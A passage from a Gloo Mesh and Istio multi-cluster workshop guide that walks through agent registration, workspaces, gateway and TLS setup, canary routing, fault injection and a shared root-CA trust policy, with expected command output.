    disableCA: false
    disableCACertGeneration: false
glooMeshUi:
  resources:
    requests:
      cpu: 125m
      memory: 256Mi
    limits:
      cpu: 500m
      memory: 512Gi
rbac-webhook:
  enabled: false
glooMeshRedis:
  resources:
    requests:
      cpu: 125m
      memory: 256Mi
    limits:
      cpu: 500m
      memory: 512Gi
prometheus:
  enabled: true
  server:
    resources:
      requests:
        cpu: 125m
        memory: 256Mi
      limits:
        cpu: 500m
        memory: 512Gi
EOF

kubectl --context ${MGMT} -n gloo-mesh rollout status deploy/gloo-mesh-mgmt-server
```

Then, you need to set the environment variable to tell the Gloo Mesh agents how to communicate with the management plane:

```bash
export ENDPOINT_GLOO_MESH=$(kubectl --context ${MGMT} -n gloo-mesh get svc gloo-mesh-mgmt-server -o jsonpath='{.status.loadBalancer.ingress[0].*}'):9900
export HOST_GLOO_MESH=$(echo ${ENDPOINT_GLOO_MESH} | cut -d: -f1)
```

Check that the variables have correct values:
```
echo $HOST_GLOO_MESH
echo $ENDPOINT_GLOO_MESH
```

Finally, you need to register the cluster(s).

Here is how you register the first one:

```bash
helm repo add gloo-mesh-agent https://storage.googleapis.com/gloo-mesh-enterprise/gloo-mesh-agent
helm repo update

kubectl apply --context ${MGMT} -f- <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: KubernetesCluster
metadata:
  name: cluster1
  namespace: gloo-mesh
spec:
  clusterDomain: cluster.local
EOF

kubectl --context ${CLUSTER1} create ns gloo-mesh

kubectl get secret relay-root-tls-secret -n gloo-mesh --context ${MGMT} -o jsonpath='{.data.ca\.crt}' | base64 -d > ca.crt
kubectl create secret generic relay-root-tls-secret -n gloo-mesh --context ${CLUSTER1} --from-file ca.crt=ca.crt
rm ca.crt

kubectl get secret relay-identity-token-secret -n gloo-mesh --context ${MGMT} -o jsonpath='{.data.token}' | base64 -d > token
kubectl create secret generic relay-identity-token-secret -n gloo-mesh --context ${CLUSTER1} --from-file token=token
rm token

helm upgrade --install gloo-mesh-agent gloo-mesh-agent/gloo-mesh-agent \
  --namespace gloo-mesh \
  --kube-context=${CLUSTER1} \
  --set relay.serverAddress=${ENDPOINT_GLOO_MESH} \
  --set relay.authority=gloo-mesh-mgmt-server.gloo-mesh \
  --set rate-limiter.enabled=false \
  --set ext-auth-service.enabled=false \
  --set cluster=cluster1 \
  --version 2.2.0
```

Note that the registration can also be performed using `meshctl cluster register`.

And here is how you register the second one:

```bash
kubectl apply --context ${MGMT} -f- <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: KubernetesCluster
metadata:
  name: cluster2
  namespace: gloo-mesh
spec:
  clusterDomain: cluster.local
EOF

kubectl --context ${CLUSTER2} create ns gloo-mesh

kubectl get secret relay-root-tls-secret -n gloo-mesh --context ${MGMT} -o jsonpath='{.data.ca\.crt}' | base64 -d > ca.crt
kubectl create secret generic relay-root-tls-secret -n gloo-mesh --context ${CLUSTER2} --from-file ca.crt=ca.crt
rm ca.crt

kubectl get secret relay-identity-token-secret -n gloo-mesh --context ${MGMT} -o jsonpath='{.data.token}' | base64 -d > token
kubectl create secret generic relay-identity-token-secret -n gloo-mesh --context ${CLUSTER2} --from-file token=token
rm token

helm upgrade --install gloo-mesh-agent gloo-mesh-agent/gloo-mesh-agent \
  --namespace gloo-mesh \
  --kube-context=${CLUSTER2} \
  --set relay.serverAddress=${ENDPOINT_GLOO_MESH} \
  --set relay.authority=gloo-mesh-mgmt-server.gloo-mesh \
  --set rate-limiter.enabled=false \
  --set ext-auth-service.enabled=false \
  --set cluster=cluster2 \
  --version 2.2.0
```

You can check the cluster(s) have been registered correctly using the following commands:

Method #1: Port-forward to gloo-mesh-mgmt-server admin page

In the terminal, run the port-forward command below to expose the metrics endpoint
```
kubectl port-forward -n gloo-mesh --context ${MGMT} deploy/gloo-mesh-mgmt-server 9091
```

In your browser, connect to http://localhost:9091/metrics

In the metrics UI, look for the following lines. If the values are 1, the agents in the workload clusters are successfully registered with the management server. If the values are 0, the agents are not successfully connected.
```
relay_pull_clients_connected{cluster="cluster1"} 1
relay_pull_clients_connected{cluster="cluster2"} 1
# HELP relay_push_clients_connected Current number of connected Relay push clients (Relay Agents).
# TYPE relay_push_clients_connected gauge
relay_push_clients_connected{cluster="cluster1"} 1
relay_push_clients_connected{cluster="cluster2"} 1
```

Method #2: With Ephemeral Containers feature-flag enabled:
```
pod=$(kubectl --context ${MGMT} -n gloo-mesh get pods -l app=gloo-mesh-mgmt-server -o jsonpath='{.items[0].metadata.name}')
kubectl --context ${MGMT} -n gloo-mesh debug -q -i ${pod} --image=curlimages/curl -- curl -s http://localhost:9091/metrics | grep relay_push_clients_connected
```

You should get an output similar to this:

```
# HELP relay_push_clients_connected Current number of connected Relay push clients (Relay Agents).
# TYPE relay_push_clients_connected gauge
relay_push_clients_connected{cluster="cluster1"} 1
relay_push_clients_connected{cluster="cluster2"} 1
```

Method #3: Visualize in the UI

To open a port-forward to the Gloo Mesh UI you can either use `meshctl` or `kubectl` commands

meshctl:
```
meshctl dashboard --kubecontext ${MGMT}
```

kubectl:
```
kubectl port-forward -n gloo-mesh svc/gloo-mesh-ui 8090 --context ${MGMT}
```

If agents were successfully registered, you should see information in the Clusters section of the Overview page.

To use the Gloo Mesh Gateway advanced features (external authentication, rate limiting, ...), you need to install the Gloo Mesh addons.

First, you need to create a namespace for the addons, with Istio injection enabled:

```bash
kubectl --context ${CLUSTER1} create namespace gloo-mesh-addons
kubectl --context ${CLUSTER1} label namespace gloo-mesh-addons istio.io/rev=1-13
kubectl --context ${CLUSTER2} create namespace gloo-mesh-addons
kubectl --context ${CLUSTER2} label namespace gloo-mesh-addons istio.io/rev=1-13
```

Then, you can deploy the addons on the cluster(s) using Helm:

```bash
helm upgrade --install gloo-mesh-agent-addons gloo-mesh-agent/gloo-mesh-agent \
  --namespace gloo-mesh-addons \
  --kube-context=${CLUSTER1} \
  --set glooMeshAgent.enabled=false \
  --set rate-limiter.enabled=true \
  --set ext-auth-service.enabled=true \
  --version 2.2.0

helm upgrade --install gloo-mesh-agent-addons gloo-mesh-agent/gloo-mesh-agent \
  --namespace gloo-mesh-addons \
  --kube-context=${CLUSTER2} \
  --set glooMeshAgent.enabled=false \
  --set rate-limiter.enabled=true \
  --set ext-auth-service.enabled=true \
  --version 2.2.0
```

Finally, you need to specify which gateways you want to use for cross cluster traffic:

```bash
cat <<EOF | kubectl --context ${MGMT} apply -f -
apiVersion: admin.gloo.solo.io/v2
kind: WorkspaceSettings
metadata:
  name: global
  namespace: gloo-mesh
spec:
  options:
    eastWestGateways:
      - selector:
          labels:
            istio: eastwestgateway
EOF
```

This is how to environment looks like now:


## Lab 6 - Create the gateways workspace <a name="Lab-6"></a>

We're going to create a workspace for the team in charge of the Gateways.

The platform team needs to create the corresponding `Workspace` Kubernetes objects in the Gloo Mesh management cluster.

Let's create the `gateways` workspace which corresponds to the `istio-gateways` and the `gloo-mesh-addons` namespaces on the cluster(s):

```bash
kubectl apply --context ${MGMT} -f- <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: Workspace
metadata:
  name: gateways
  namespace: gloo-mesh
spec:
  workloadClusters:
  - name: cluster1
    namespaces:
    - name: istio-gateways
    - name: gloo-mesh-addons
  - name: cluster2
    namespaces:
    - name: istio-gateways
    - name: gloo-mesh-addons
EOF
```

Then, the Gateway team creates a `WorkspaceSettings` Kubernetes object in one of the namespaces of the `gateways` workspace (so the `istio-gateways` or the `gloo-mesh-addons` namespace):

```bash
kubectl apply --context ${CLUSTER1} -f- <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: WorkspaceSettings
metadata:
  name: gateways
  namespace: istio-gateways
spec:
  importFrom:
  - workspaces:
    - selector:
        allow_ingress: "true"
    resources:
    - kind: SERVICE
    - kind: ALL
      labels:
        expose: "true"
  exportTo:
  - workspaces:
    - selector:
        allow_ingress: "true"
    resources:
    - kind: SERVICE
EOF
```

The Gateway team has decided to import the following from the workspaces that have the label `allow_ingress` set to `true` (using a selector):
- all the Kubernetes services exported by these workspaces
- all the resources (RouteTables, VirtualDestination, ...) exported by these workspaces that have the label `expose` set to `true`


## Lab 7 - Create the bookinfo workspace <a name="Lab-7"></a>

We're going to create a workspace for the team in charge of the Bookinfo application.

The platform team needs to create the corresponding `Workspace` Kubernetes objects in the Gloo Mesh management cluster.

Let's create the `bookinfo` workspace which corresponds to the `bookinfo-frontends` and `bookinfo-backends` namespaces on the cluster(s):

```bash
kubectl apply --context ${MGMT} -f- <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: Workspace
metadata:
  name: bookinfo
  namespace: gloo-mesh
  labels:
    allow_ingress: "true"
spec:
  workloadClusters:
  - name: cluster1
    namespaces:
    - name: bookinfo-frontends
    - name: bookinfo-backends
  - name: cluster2
    namespaces:
    - name: bookinfo-frontends
    - name: bookinfo-backends
EOF
```

Then, the Bookinfo team creates a `WorkspaceSettings` Kubernetes object in one of the namespaces of the `bookinfo` workspace (so the `bookinfo-frontends` or the `bookinfo-backends` namespace):

```bash
kubectl apply --context ${CLUSTER1} -f- <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: WorkspaceSettings
metadata:
  name: bookinfo
  namespace: bookinfo-frontends
spec:
  importFrom:
  - workspaces:
    - name: gateways
    resources:
    - kind: SERVICE
  exportTo:
  - workspaces:
    - name: gateways
    resources:
    - kind: SERVICE
      labels:
        app: productpage
    - kind: SERVICE
      labels:
        app: reviews
    - kind: ALL
      labels:
        expose: "true"
EOF
```

The Bookinfo team has decided to export the following to the `gateway` workspace (using a reference):
- the `productpage` and the `reviews` Kubernetes services
- all the resources (RouteTables, VirtualDestination, ...) that have the label `expose` set to `true`

This is how to environment looks like with the workspaces:


## Lab 8a - Expose the productpage through a gateway <a name="Lab-8a"></a>

In this step, we're going to expose the `productpage` service through the Ingress Gateway using Gloo Mesh.

The Gateway team must create a `VirtualGateway` to configure the Istio Ingress Gateway in cluster1 to listen to incoming requests.

```bash
kubectl --context ${CLUSTER1} apply -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: VirtualGateway
metadata:
  name: north-south-gw
  namespace: istio-gateways
spec:
  workloads:
    - selector:
        labels:
          istio: ingressgateway
        cluster: cluster1
  listeners: 
    - http: {}
      port:
        number: 80
      allowedRouteTables:
        - host: '*'
EOF
```

Then, the Bookinfo team can create a `RouteTable` to determine how they want to handle the traffic.

```bash
kubectl --context ${CLUSTER1} apply -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: productpage
  namespace: bookinfo-frontends
  labels:
    expose: "true"
spec:
  hosts:
    - '*'
  virtualGateways:
    - name: north-south-gw
      namespace: istio-gateways
      cluster: cluster1
  workloadSelectors: []
  http:
    - name: productpage
      matchers:
      - uri:
          exact: /productpage
      - uri:
          prefix: /static
      - uri:
          exact: /login
      - uri:
          exact: /logout
      - uri:
          prefix: /api/v1/products
      forwardTo:
        destinations:
          - ref:
              name: productpage
              namespace: bookinfo-frontends
            port:
              number: 9080
EOF
```

You should now be able to access the `productpage` application through the browser.

Get the URL to access the `productpage` service using the following command:
```
echo "http://${ENDPOINT_HTTP_GW_CLUSTER1}/productpage"
```

Gloo Mesh translates the `VirtualGateway` and `RouteTable` into the corresponding Istio objects (`Gateway` and `VirtualService`).

Now, let's secure the access through TLS.

Let's first create a private key and a self-signed certificate:

```bash
openssl req -x509 -nodes -days 365 -newkey rsa:2048 \
   -keyout tls.key -out tls.crt -subj "/CN=*"
```

Then, you have to store them in a Kubernetes secrets running the following commands:

```bash
kubectl --context ${CLUSTER1} -n istio-gateways create secret generic tls-secret \
--from-file=tls.key=tls.key \
--from-file=tls.crt=tls.crt

kubectl --context ${CLUSTER2} -n istio-gateways create secret generic tls-secret \
--from-file=tls.key=tls.key \
--from-file=tls.crt=tls.crt
```

Finally, the Gateway team needs to update the `VirtualGateway` to use this secret:

```bash
kubectl --context ${CLUSTER1} apply -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: VirtualGateway
metadata:
  name: north-south-gw
  namespace: istio-gateways
spec:
  workloads:
    - selector:
        labels:
          istio: ingressgateway
        cluster: cluster1
  listeners: 
    - http: {}
# ---------------- SSL config ---------------------------
      port:
        number: 443
      tls:
        mode: SIMPLE
        secretName: tls-secret
# -------------------------------------------------------
      allowedRouteTables:
        - host: '*'
EOF
```

You can now access the `productpage` application securely through the browser.
Get the URL to access the `productpage` service using the following command:
```
echo "https://${ENDPOINT_HTTPS_GW_CLUSTER1}/productpage"
```

This diagram shows the flow of the request (through the Istio Ingress Gateway):


## Lab 8b - Canary deployment with traffic shifting <a name="Lab-8b"></a>

Let's explore weighted destinations and how we can use them to demonstrate basic functionality of canary deployments. Leveraging weighted destinations, we can start to build up foundations of progressive delivery techniques

Take note that our current deployment does not have any weights defined. This will result in a round-robin behavior across the existing reviews services in cluster1. You will notice the v1 (no stars) and v2 (black stars) reviews services.

Let's assume that the v2 reviews service is a newly developed application. Round robin in this case may not be desirable in this situation since we may still be testing the functionality of the "new" v2 service in our cluster. A good strategy we can leverage to carefully release the v2 service is canary/progressive delivery.

Here we will create a new RouteTable that will allow us to define weights for our reviews service so that we can control the flow of traffic to each subset. Let's start by setting 100% of the weight to the v1 service.

```bash
kubectl --context ${CLUSTER1} apply -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: reviews
  namespace: bookinfo-backends
spec:
  hosts:
  - reviews.bookinfo-backends.svc.cluster.local
  http:
  - forwardTo:
      destinations:
      - port:
          number: 9080
        ref:
          cluster: cluster1
          name: reviews
          namespace: bookinfo-backends
        subset:
          version: v1
        weight: 100
      - port:
          number: 9080
        ref:
          cluster: cluster1
          name: reviews
          namespace: bookinfo-backends
        subset:
          version: v2
        weight: 0
    matchers:
    - uri:
        prefix: /
    name: reviews
  workloadSelectors:
  - selector:
      labels:
        app: productpage
EOF
```

If you navigate back to your bookinfo application, what we should observe is that only v1 reviews service is available (no stars)

Great! Now lets slowly shift traffic to our newly created v2 service and observe the behavior for correctness. Typically you can do this progressively to ensure low impact in case of an issue such as a 20-40-60-80-100 weighted strategy. For this lab we will just progressively shift to v2 50/50, and then 100% v2

```bash
kubectl --context ${CLUSTER1} apply -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: reviews
  namespace: bookinfo-backends
spec:
  hosts:
  - reviews.bookinfo-backends.svc.cluster.local
  http:
  - forwardTo:
      destinations:
      - port:
          number: 9080
        ref:
          cluster: cluster1
          name: reviews
          namespace: bookinfo-backends
        subset:
          version: v1
        weight: 50
      - port:
          number: 9080
        ref:
          cluster: cluster1
          name: reviews
          namespace: bookinfo-backends
        subset:
          version: v2
        weight: 50
    matchers:
    - uri:
        prefix: /
    name: reviews
  workloadSelectors:
  - selector:
      labels:
        app: productpage
EOF
```

If you navigate back to your bookinfo application, what we should observe is v1 and v2 reviews service are served 50% of the time

Now that we feel confident that v2 reviews service will work, we can shift traffic completely to v2 (black stars)

```bash
kubectl --context ${CLUSTER1} apply -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: reviews
  namespace: bookinfo-backends
spec:
  hosts:
  - reviews.bookinfo-backends.svc.cluster.local
  http:
  - forwardTo:
      destinations:
      - port:
          number: 9080
        ref:
          cluster: cluster1
          name: reviews
          namespace: bookinfo-backends
        subset:
          version: v1
        weight: 0
      - port:
          number: 9080
        ref:
          cluster: cluster1
          name: reviews
          namespace: bookinfo-backends
        subset:
          version: v2
        weight: 100
    matchers:
    - uri:
        prefix: /
    name: reviews
  workloadSelectors:
  - selector:
      labels:
        app: productpage
EOF
```

If you navigate back to your bookinfo application, what we should observe v2 reviews service is served 100% of the time

We have now successfully transitioned our v1 app to the v2 canary!

Let's delete the `RouteTable` we've created to move forward with the next labs:
```bash
kubectl --context ${CLUSTER1} -n bookinfo-backends delete routetable reviews
```

## Lab 9 - Traffic policies <a name="Lab-9"></a>

We're going to use Gloo Mesh policies to inject faults and configure timeouts.

Let's create the following `FaultInjectionPolicy` to inject a delay when the `v2` version of the `reviews` service talks to the `ratings` service:

```bash
cat << EOF | kubectl --context ${CLUSTER1} apply -f -
apiVersion: resilience.policy.gloo.solo.io/v2
kind: FaultInjectionPolicy
metadata:
  name: ratings-fault-injection
  namespace: bookinfo-backends
spec:
  applyToRoutes:
  - route:
      labels:
        fault_injection: "true"
  config:
    delay:
      fixedDelay: 2s
      percentage: 100
EOF
```

As you can see, it will be applied to all the routes that have the label `fault_injection` set to `"true"`.

So, you need to create a `RouteTable` with this label set in the corresponding route.

```bash
cat << EOF | kubectl --context ${CLUSTER1} apply -f -
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: ratings
  namespace: bookinfo-backends
spec:
  hosts:
    - 'ratings.bookinfo-backends.svc.cluster.local'
  workloadSelectors:
  - selector:
      labels:
        app: reviews
  http:
    - name: ratings
      labels:
        fault_injection: "true"
      matchers:
      - uri:
          prefix: /
      forwardTo:
        destinations:
          - ref:
              name: ratings
              namespace: bookinfo-backends
            port:
              number: 9080
EOF
```

If you refresh the webpage, you should see that it takes longer to get the `productpage` loaded when version `v2` of the `reviews` services is called.

Now, let's configure a 0.5s request timeout when the `productpage` service calls the `reviews` service on cluster1.

You need to create the following `RetryTimeoutPolicy`:

```bash
cat << EOF | kubectl --context ${CLUSTER1} apply -f -
apiVersion: resilience.policy.gloo.solo.io/v2
kind: RetryTimeoutPolicy
metadata:
  name: reviews-request-timeout
  namespace: bookinfo-backends
spec:
  applyToRoutes:
  - route:
      labels:
        request_timeout: "0.5s"
  config:
    requestTimeout: 0.5s
EOF
```

As you can see, it will be applied to all the routes that have the label `request_timeout` set to `"0.5s"`.

Then, you need to create a `RouteTable` with this label set in the corresponding route.

```bash
cat << EOF | kubectl --context ${CLUSTER1} apply -f -
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: reviews
  namespace: bookinfo-backends
spec:
  hosts:
    - 'reviews.bookinfo-backends.svc.cluster.local'
  workloadSelectors:
  - selector:
      labels:
        app: productpage
  http:
    - name: reviews
      labels:
        request_timeout: "0.5s"
      matchers:
      - uri:
          prefix: /
      forwardTo:
        destinations:
          - ref:
              name: reviews
              namespace: bookinfo-backends
            port:
              number: 9080
            subset:
              version: v2
EOF
```

If you refresh the page several times, you'll see an error message telling that reviews are unavailable when the productpage is trying to communicate with the version `v2` of the `reviews` service.


This diagram shows where the timeout and delay have been applied:


Let's delete the Gloo Mesh objects we've created:

```bash
kubectl --context ${CLUSTER1} -n bookinfo-backends delete faultinjectionpolicy ratings-fault-injection
kubectl --context ${CLUSTER1} -n bookinfo-backends delete routetable ratings
kubectl --context ${CLUSTER1} -n bookinfo-backends delete retrytimeoutpolicy reviews-request-timeout
kubectl --context ${CLUSTER1} -n bookinfo-backends delete routetable reviews
```


## Lab 10 - Create the Root Trust Policy <a name="Lab-10"></a>

To allow secured (end-to-end mTLS) cross cluster communications, we need to make sure the certificates issued by the Istio control plane on each cluster are signed with intermediate certificates which have a common root CA.

Gloo Mesh fully automates this process.

Run this command to see how the communication between microservices occurs currently:

```
kubectl --context ${CLUSTER1} exec -t -n bookinfo-backends deploy/reviews-v1 \
-- openssl s_client -showcerts -connect ratings:9080 -alpn istio
```

Now, the output should be like that:

```
...
Certificate chain
 0 s:
   i:O = cluster1
-----BEGIN CERTIFICATE-----
MIIDFzCCAf+gAwIBAgIRALsoWlroVcCc1n+VROhATrcwDQYJKoZIhvcNAQELBQAw
...
BPiAYRMH5j0gyBqiZZEwCfzfQe1e6aAgie9T
-----END CERTIFICATE-----
 1 s:O = cluster1
   i:O = cluster1
-----BEGIN CERTIFICATE-----
MIICzjCCAbagAwIBAgIRAKIx2hzMbAYzM74OC4Lj1FUwDQYJKoZIhvcNAQELBQAw
...
uMTPjt7p/sv74fsLgrx8WMI0pVQ7+2plpjaiIZ8KvEK9ye/0Mx8uyzTG7bpmVVWo
ugY=
-----END CERTIFICATE-----
...
```

Now, run the same command on the second cluster:

```
kubectl --context ${CLUSTER2} exec -t -n bookinfo-backends deploy/reviews-v1 \
-- openssl s_client -showcerts -connect ratings:9080 -alpn istio
```

The output should be like that:

```
...
Certificate chain
 0 s:
   i:O = cluster2
-----BEGIN CERTIFICATE-----
MIIDFzCCAf+gAwIBAgIRALo1dmnbbP0hs1G82iBa2oAwDQYJKoZIhvcNAQELBQAw
...
YvDrZfKNOKwFWKMKKhCSi2rmCvLKuXXQJGhy
-----END CERTIFICATE-----
 1 s:O = cluster2
   i:O = cluster2
-----BEGIN CERTIFICATE-----
MIICzjCCAbagAwIBAgIRAIjegnzq/hN/NbMm3dmllnYwDQYJKoZIhvcNAQELBQAw
...
GZRM4zV9BopZg745Tdk2LVoHiBR536QxQv/0h1P0CdN9hNLklAhGN/Yf9SbDgLTw
6Sk=
-----END CERTIFICATE-----
...
```

The first certificate in the chain is the certificate of the workload and the second one is the Istio CAs signing (CA) certificate.

As you can see, the Istio CAs signing (CA) certificates are different in the 2 clusters, so one cluster can't validate certificates issued by the other cluster.

Creating a Root Trust Policy will unify these two CAs with a common root identity.

Run the following command to create the *Root Trust Policy*:


```bash
cat << EOF | kubectl --context ${MGMT} apply -f -
apiVersion: admin.gloo.solo.io/v2
kind: RootTrustPolicy
metadata:
  name: root-trust-policy
  namespace: gloo-mesh
spec:
  config:
    mgmtServerCa:
      generated: {}
    autoRestartPods: true
EOF
```

When we create the RootTrustPolicy, Gloo Mesh will kick off the process of unifying identities under a shared root.

First, Gloo Mesh will create the Root certificate.

Then, Gloo Mesh will use the Gloo Mesh Agent on each of the clusters to create a new key/cert pair that will form an intermediate CA used by the mesh on that cluster. It will then create a Certificate Request (CR).


Gloo Mesh will then sign the intermediate certificates with the Root certificate. 

At that point, we want Istio to pick up the new intermediate CA and start using that for its workloads. To do that Gloo Mesh creates a Kubernetes secret called `cacerts` in the `istio-system` namespace.

You can have a look at the Istio documentation [here](https://istio.io/latest/docs/tasks/security/cert-management/plugin-ca-cert) if you want to get more information about this process.

Check that the secret containing the new Istio CA has been created in the istio namespace, on the first cluster:

```
kubectl --context ${CLUSTER1} get secret -n istio-system cacerts -o yaml
```

Here is the expected output:

```
apiVersion: v1
data:
  ca-cert.pem: LS0tLS1CRUdJTiBDRVJUSUZJQ0FURS0tLS0tCk1JSUZFRENDQXZpZ0F3SUJBZ0lRUG5kRDkwejN4dytYeTBzYzNmcjRmekFOQmdrcWhraUc5dzBCQVFzRkFEQWIKTVJrd0Z3WURWU...
  jFWVlZtSWl3Si8va0NnNGVzWTkvZXdxSGlTMFByWDJmSDVDCmhrWnQ4dz09Ci0tLS0tRU5EIENFUlRJRklDQVRFLS0tLS0K
  ca-key.pem: LS0tLS1CRUdJTiBSU0EgUFJJVkFURSBLRVktLS0tLQpNSUlKS0FJQkFBS0NBZ0VBczh6U0ZWcEFxeVNodXpMaHVXUlNFMEJJMXVwbnNBc3VnNjE2TzlKdzBlTmhhc3RtClUvZERZS...
  DT2t1bzBhdTFhb1VsS1NucldpL3kyYUtKbz0KLS0tLS1FTkQgUlNBIFBSSVZBVEUgS0VZLS0tLS0K
  cert-chain.pem: LS0tLS1CRUdJTiBDRVJUSUZJQ0FURS0tLS0tCk1JSUZFRENDQXZpZ0F3SUJBZ0lRUG5kRDkwejN4dytYeTBzYzNmcjRmekFOQmdrcWhraUc5dzBCQVFzRkFEQWIKTVJrd0Z3WURWU...
  RBTHpzQUp2ZzFLRUR4T2QwT1JHZFhFbU9CZDBVUDk0KzJCN0tjM2tkNwpzNHYycEV2YVlnPT0KLS0tLS1FTkQgQ0VSVElGSUNBVEUtLS0tLQo=
  key.pem: ""
  root-cert.pem: LS0tLS1CRUdJTiBDRVJUSUZJQ0FURS0tLS0tCk1JSUU0ekNDQXN1Z0F3SUJBZ0lRT2lZbXFGdTF6Q3NzR0RFQ3JOdnBMakFOQmdrcWhraUc5dzBCQVFzRkFEQWIKTVJrd0Z3WURWU...
  UNBVEUtLS0tLQo=
kind: Secret
metadata:
  labels:
    context.mesh.gloo.solo.io/cluster: cluster1
    context.mesh.gloo.solo.io/namespace: istio-system
    gloo.solo.io/parent_cluster: cluster1
    gloo.solo.io/parent_group: internal.gloo.solo.io
    gloo.solo.io/parent_kind: IssuedCertificate
    gloo.solo.io/parent_name: istiod-1-13-istio-system-cluster1
    gloo.solo.io/parent_namespace: istio-system
    gloo.solo.io/parent_version: v2
    reconciler.mesh.gloo.solo.io/name: cert-agent
  name: cacerts
  namespace: istio-system
type: certificates.mesh.gloo.solo.io/issued_certificate
```

Same operation on the second cluster:

```
kubectl --context ${CLUSTER2} get secret -n istio-system cacerts -o yaml
```

Here is the expected output:

```
apiVersion: v1
data:
  ca-cert.pem: LS0tLS1CRUdJTiBDRVJUSUZJQ0FURS0tLS0tCk1JSUZFRENDQXZpZ0F3SUJBZ0lRWXE1V29iWFhGM1gwTjlNL3BYYkNKekFOQmdrcWhraUc5dzBCQVFzRkFEQWIKTVJrd0Z3WURWU...
  XpqQ1RtK2QwNm9YaDI2d1JPSjdQTlNJOTkrR29KUHEraXltCkZIekhVdz09Ci0tLS0tRU5EIENFUlRJRklDQVRFLS0tLS0K
  ca-key.pem: LS0tLS1CRUdJTiBSU0EgUFJJVkFURSBLRVktLS0tLQpNSUlKS1FJQkFBS0NBZ0VBMGJPMTdSRklNTnh4K1lMUkEwcFJqRmRvbG1SdW9Oc3gxNUUvb3BMQ1l1RjFwUEptCndhR1U1V...
  MNU9JWk5ObDA4dUE1aE1Ca2gxNCtPKy9HMkoKLS0tLS1FTkQgUlNBIFBSSVZBVEUgS0VZLS0tLS0K
  cert-chain.pem: LS0tLS1CRUdJTiBDRVJUSUZJQ0FURS0tLS0tCk1JSUZFRENDQXZpZ0F3SUJBZ0lRWXE1V29iWFhGM1gwTjlNL3BYYkNKekFOQmdrcWhraUc5dzBCQVFzRkFEQWIKTVJrd0Z3WURWU...
  RBTHpzQUp2ZzFLRUR4T2QwT1JHZFhFbU9CZDBVUDk0KzJCN0tjM2tkNwpzNHYycEV2YVlnPT0KLS0tLS1FTkQgQ0VSVElGSUNBVEUtLS0tLQo=
  key.pem: ""
  root-cert.pem: LS0tLS1CRUdJTiBDRVJUSUZJQ0FURS0tLS0tCk1JSUU0ekNDQXN1Z0F3SUJBZ0lRT2lZbXFGdTF6Q3NzR0RFQ3JOdnBMakFOQmdrcWhraUc5dzBCQVFzRkFEQWIKTVJrd0Z3WURWU...
  UNBVEUtLS0tLQo=
kind: Secret
metadata:
  labels:
    context.mesh.gloo.solo.io/cluster: cluster2
    context.mesh.gloo.solo.io/namespace: istio-system
    gloo.solo.io/parent_cluster: cluster2
    gloo.solo.io/parent_group: internal.gloo.solo.io
    gloo.solo.io/parent_kind: IssuedCertificate
    gloo.solo.io/parent_name: istiod-1-13-istio-system-cluster2
    gloo.solo.io/parent_namespace: istio-system
    gloo.solo.io/parent_version: v2
    reconciler.mesh.gloo.solo.io/name: cert-agent
  name: cacerts
  namespace: istio-system
type: certificates.mesh.gloo.solo.io/issued_certificate
```

As you can see, the secrets contain the same Root CA (base64 encoded), but different intermediate certs.

Have a look at the `RootTrustPolicy` object we've just created and notice the `autoRestartPods: true` in the `config`. This instructs Gloo Mesh to restart all the Pods in the mesh.

In recent versions of Istio, the control plane is able to pick up this new cert without any restart, but we would need to wait for the different Pods to renew their certificates (which happens every hour by default).

Now, let's check what certificates we get when we run the same commands we ran before we created the Root Trust Policy:

```
kubectl --context ${CLUSTER1} exec -t -n bookinfo-backends deploy/reviews-v1 \
-- openssl s_client -showcerts -connect ratings:9080 -alpn istio
```

The output should be like that:

```
...
Certificate chain
 0 s:
   i:
-----BEGIN CERTIFICATE-----
MIIEBzCCAe+gAwIBAgIRAK1yjsFkisSjNqm5tzmKQS8wDQYJKoZIhvcNAQELBQAw
...
T77lFKXx0eGtDNtWm/1IPiOutIMlFz/olVuN
-----END CERTIFICATE-----
 1 s:
   i:O = gloo-mesh
-----BEGIN CERTIFICATE-----
MIIFEDCCAvigAwIBAgIQPndD90z3xw+Xy0sc3fr4fzANBgkqhkiG9w0BAQsFADAb
...
hkZt8w==
-----END CERTIFICATE-----
 2 s:O = gloo-mesh
   i:O = gloo-mesh
-----BEGIN CERTIFICATE-----
MIIE4zCCAsugAwIBAgIQOiYmqFu1zCssGDECrNvpLjANBgkqhkiG9w0BAQsFADAb
...
s4v2pEvaYg==
-----END CERTIFICATE-----
 3 s:O = gloo-mesh
   i:O = gloo-mesh
-----BEGIN CERTIFICATE-----
MIIE4zCCAsugAwIBAgIQOiYmqFu1zCssGDECrNvpLjANBgkqhkiG9w0BAQsFADAb
...
s4v2pEvaYg==
-----END CERTIFICATE-----
...
```

And let's compare with what we get on the second cluster:

```
kubectl --context ${CLUSTER2} exec -t -n bookinfo-backends deploy/reviews-v1 \
-- openssl s_client -showcerts -connect ratings:9080 -alpn istio
```

The output should be like that:

```
...
Certificate chain
 0 s:
   i:
-----BEGIN CERTIFICATE-----
MIIEBjCCAe6gAwIBAgIQfSeujXiz3KsbG01+zEcXGjANBgkqhkiG9w0BAQsFADAA
...
EtTlhPLbyf2GwkUgzXhdcu2G8uf6o16b0qU=
-----END CERTIFICATE-----
 1 s:
   i:O = gloo-mesh
-----BEGIN CERTIFICATE-----
MIIFEDCCAvigAwIBAgIQYq5WobXXF3X0N9M/pXbCJzANBgkqhkiG9w0BAQsFADAb
...
FHzHUw==
-----END CERTIFICATE-----
 2 s:O = gloo-mesh
   i:O = gloo-mesh
-----BEGIN CERTIFICATE-----
MIIE4zCCAsugAwIBAgIQOiYmqFu1zCssGDECrNvpLjANBgkqhkiG9w0BAQsFADAb
...
s4v2pEvaYg==
-----END CERTIFICATE-----
